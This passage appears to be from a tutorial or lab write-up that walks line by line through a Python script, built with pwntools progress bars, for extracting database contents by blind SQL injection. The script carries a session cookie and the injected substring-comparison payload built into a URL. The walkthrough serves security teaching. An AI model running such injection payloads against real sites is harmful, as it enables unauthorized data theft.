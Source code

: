 ```python
 cookies = {'PHPSESSID': 'u85u4l0h0cho9ug97gqspsubp3'}
```
Let's remember that we are logged in, so we will need to add our session. In my case, it would be this one.

10

```python
database = ""
```
This variable will be explained in more detail below as to why it is empty.

11

```python
p1 =log.progress("Fuerza bruta")
```
This progress bar will continuously display the injection we will be applying, so we can see at all times where we are at.

12

```python
 p1.status("Iniciando proceso de fuerza bruta")
```
basically prints that string.

13

```python
time.sleep(2)
```
This is a command that pauses the execution of the program for a certain number of seconds. In this context, it is used so that the user can clearly see that the program is performing the fuzzing process in real time.

14

```python
p2 = log.progress("Databases")
```

This is where it will be editing the "Databases" variable that we defined above and it will be updating the name of the currently fuzzed DB in real-time.

15

```python
  for dbs in range(0, 6):
        for position_character in range(1, 30): 
            for character in characters:
                sqli = main_url + f"'+and+(select+substring(pagename,{position_character},1)+from+pages+limit+{dbs},1)='{character}"
```
where

for dbs in range(0, 6): For the databases, we will define a range from 0 to 5 because if we put 6, when we print it will only interpret 5. So we will search within a range of 5, based on the count we made.
